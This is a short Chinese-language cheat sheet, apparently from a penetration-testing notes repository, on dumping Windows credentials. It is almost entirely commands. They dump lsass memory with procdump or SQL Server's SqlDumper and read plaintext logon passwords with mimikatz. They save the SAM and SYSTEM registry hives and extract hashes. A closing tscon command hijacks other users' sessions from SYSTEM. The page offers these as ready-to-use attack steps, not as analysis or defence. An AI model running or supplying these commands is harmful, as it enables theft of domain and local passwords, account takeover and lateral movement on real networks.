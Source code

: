 # dump passwd

---

远程内存dump，本地使用mimikatz读取dump文件中域用户登陆次电脑中保存的密码

- procdump下载：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump
- mimikatz下载：https://github.com/gentilkiwi/mimikatz/releases

```
procdump64.exe -accepteula -ma lsass.exe 1.dmp   # dump内存
makecab .\1.dmp  1.zip                           # windows自带压缩
下载1.zip，本地解压使用：
mimikatz.exe "log" "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit
```

sqlserver dump(来源:https://xz.aliyun.com/t/9831)

```
dir /s/a-d/b C:\*sqldumper.exe   # 查看是否有sqlserver,切换到该目录
for /f  "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do Sqldumper.exe %i 0 0x01100   # 查看是否有sql保存凭证
mimikatz.exe  "sekurlsa::minidump SQL.dmp" "sekurlsa::logonPasswords full" exit
```

sqlserver dump 知道sqlserver路径

```
查看lsass.exe的pid（lsass为windows本地安全和登陆策略的系统进程）
tasklist /svc |findstr lsass.exe

584是lsass.exe的pid
"C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe" 584 0 0x01100

下载：SQLDmpr0001.mdmp

本地通过mimikatz对mdmp文件读取明文密码
mimikatz.exe "sekurlsa::minidump SQLDmpr0001.mdmp" "sekurlsa::logonPasswords full" "exit">1.txt
```

sam数据库(来源:https://xz.aliyun.com/t/9831)

```
reg save hklm\sam .\sam.hive&reg save hklm\system .\system.hive
mimikatz.exe "lsadump::sam /system:sys.hive /sam:sam.hive"
```

powershell 版mimikatz

```
https://github.com/Stealthbits/poshkatz
```

注意：

```
通过此命令看是否有会话运行中，没有再远程登陆
query user   # 同时可以查看用户id，比如administrator为2
cmd /k tscon 2 /dest:console  # system权限下可以任意切换其他用户的cmd
```

